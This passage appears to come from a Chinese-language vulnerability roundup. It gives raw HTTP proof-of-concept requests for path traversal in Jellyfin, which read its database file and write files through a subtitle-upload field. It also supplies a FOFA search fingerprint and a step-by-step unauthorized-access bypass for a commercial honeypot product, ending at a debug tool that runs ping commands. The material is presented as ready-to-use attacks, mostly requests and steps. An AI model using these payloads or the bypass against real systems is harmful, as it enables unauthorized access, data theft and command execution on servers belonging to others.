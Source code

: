 ```

## POC-3
GET /Videos/anything/hls/..%5Cdata%5Cjellyfin.db/stream.m3u8/?api_key=4c5750626da14b0a804977b09bf3d8f7 HTTP/1.1

## POC-4
GET /Images/Ratings/c:%5ctemp/filename HTTP/1.1 
GET /Images/Ratings/..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5ctemp/filename HTTP/1.1

## POC-5
POST /Videos/d7634eb0064cce760f3f0bf8282c16cd/Subtitles HTTP/1.1
...
X-Emby-Authorization: MediaBrowser DeviceId="...", Version="10.7.0", Token="..."
...
{"language":".\..\","format":".\..\test.bin","isForced":false,"data":"base64 encoded data"}
```

**0x09 **默安蜜罐未授权访问漏洞****

```
## FOFA指纹
title="幻阵
```

进入幻阵安装系统  

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2yPwE2XnAZmP79zz03JiaibqsUia71xzPRBFtr3rWcOO5cHgV2ibibFDw3sFwrDHUcOvFYYggfUicF0U4Ig/640?wx_fmt=png)

刷新并抓包  

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2yPwE2XnAZmP79zz03Jiaibqsah0sv8WRQeYge0n1Frk8EGibXomI5Wq1nDDuhmUmgoxcb12hKrQlolg/640?wx_fmt=png)

Drop 掉 /huanzhen/have_installed?

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2yPwE2XnAZmP79zz03JiaibqsZvj8ZPUic9EkNibj2EbicPG9CAibLYx5ITlNVddUlibQcEY6aiakemzQcsRA/640?wx_fmt=png)

Drop 掉 /huanzhen/mode?timestamp

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2yPwE2XnAZmP79zz03JiaibqsEF60qiahqx1nsCU3t2iaG5CjVkmJDXrOEMIxLy3yuscqIxxkiciaJB78rQ/640?wx_fmt=png)

Drop 掉 /huanzhen/version_info

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2yPwE2XnAZmP79zz03JiaibqsBE7RZPMBPZo4hiaiaeqg3amPR0PHmZSe6iapxibxHn8W6VczMLxKMsjZaQ/640?wx_fmt=png)

进入页面

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2yPwE2XnAZmP79zz03JiaibqsIBvBqTAGxzvvfmg8v8uWabDV9tc1oCRABeOoo9PWUECIPXjdY90M8A/640?wx_fmt=png)

点击调试工具并放包

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2yPwE2XnAZmP79zz03Jiaibqs7pDzQFS7FPrggq7D0tV6Wb13Q1dk26cfr01UpsSMgJlg0sPIOKE1lQ/640?wx_fmt=png)

可见可执行 ping 命令

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2yPwE2XnAZmP79zz03Jiaibqs0bYXeS3kOG1AEhU5Kvv76kV5iax14vnn5DuYM3Zye0ABcGopHCExAxQ/640?wx_fmt=png)
